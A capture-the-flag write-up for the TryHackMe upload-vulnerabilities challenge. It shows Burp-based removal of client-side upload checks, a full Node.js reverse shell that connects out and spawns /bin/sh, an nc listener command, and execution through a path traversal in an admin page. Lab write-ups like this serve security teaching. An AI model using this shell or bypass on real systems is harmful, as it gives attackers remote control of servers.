








# ⚔️ Upload Vulnerabilities (THM Room)

According to the room's author, this is a
>Tutorial room exploring some basic file-upload vulnerabilities in websites.

We will not focus on the learning aspects of this room; instead, we will focus on last task, called _the challenge_.

> Author's Note: After years of confusion, I have made the challenge optional. The following instructions still work, and the challenge is still available in the provided VM should you choose to attempt it.
> 
> Be aware that the challenge is a big step up from the walkthrough content in the room, and contains a twist which you are very unlikely to see in the real world.

Our goal is to:
>Hack the machine and grab the flag from /var/www/

The target machine address is: `jewel.uploadvulns.thm`

## 👁️ Reconnaissance & Enumeration

This is almost always the first step.



From the website's source code, we can see that `/content/` directory is used for the page background images.



As a matter of fact, all image names consist of three letters followed by the `.jpg` extension. The room's creator also provided a wordlist consisting of thee-letter strings ranging _AAA_ to _ZZZ_. This could mean that the name of our upload will be changed to match the pattern.

In the Gobuster scan screenshot, we can see and `/admin/` directory, which looks like this:



This could be our way to execute an uploaded reverse shell.

Using Burp's _Intercept_ function, we identified two fields of interest.



The `X-Powered-By: Express` header indicates that the server is running Node.js. Therefore, we will need a JavaScript reverse shell.

The second field is within `HTML` code:



When we examine `upload.js`, we can see that it contains filters that prevent us from uploading our shell as-is.



* `//Check File Size` allows the upload of files smaller than 400 KB
* `//Check Magic Number` blocks files without the `.jpg` signature FF D8 FF EE (HEX) or ÿØÿî (ISO 8859-1).
* `//Check File Extension` blocks file with extensions other than `.jpg`

## 🔫 Payload Preparation (Weaponization)

We obtained a JavaScript reverse shell from GitHub. I used one published by [secoats](https://gist.github.com/secoats/44b9b42920ac4a825e54e7310303cfdb)

```js
// Stolen from: https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell
// Nodejs reverse shell
// listen with: nc -vlnp 5555
// adjust the ip address obviously

(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(5555, "10.0.13.37", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Then we save it as `shell.jpg`. Adding a `.jpg` magic number could brake the shell, so we need to mitigate this problem otherwise.

## 💥 Exploitation & Shell Execution

We must now find a way to force the web page to accept our payload. Again using Burp, we can intercept GET request for `upload.js` and just remove code, checking for magic number.



**NOTE:** If `.js` code is not showing up, it is highly possible that JS cache in the browser is causing 304 error in Burp. You need to remove cache in chromium and restart it. Also remember to make a change in the _Request interception rule_. You need to remove `^js$` condition from file extension exclusion.

After removing the highlighted code from loading with the website, we successfully uploaded our shell and now we go hunting for it. If we check the files in `/content/` using previously mentioned wordlist we can find a file with the same size as our shell. It is named `EIZ.jpg`



Finally we will be using aforementioned `/admin/` page to execute our shell. This page executes files in the `/modules/` directory which is on the same level as `/content/` where payload is sitting. Therefore, we will execute `../content/EIZ.jpg` which results in a successful connection.

**The flag from** `/var/www/`**, our goal in this challenge is:** THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}

## 🏁 Conclusion

This challenge demonstrated how client-side protections can create a **false sense of security**. The upload functionality appeared to enforce several restrictions — file size limits, extension validation, and magic number checks — but all of these controls were implemented in **JavaScript on the client side**. By intercepting and modifying the `upload.js` file with Burp Suite, we were able to bypass these checks entirely and upload a malicious payload.

After successfully uploading the Node.js reverse shell disguised as a `.jpg` file, enumeration of the `/content/` directory using the provided three-letter wordlist allowed us to locate the uploaded file. Finally, the `/admin/` functionality was abused to execute the payload by referencing it through a relative path, which resulted in a successful reverse shell.

This exercise highlights an important security lesson: **validation performed only on the client side is inherently insecure**. Attackers can easily manipulate requests or modify client-side code, rendering such protections ineffective. Proper input validation and security checks must always be implemented **server-side** to prevent this type of attack.

With the shell established, retrieving the flag from `/var/www/` completed the objective of the challenge.
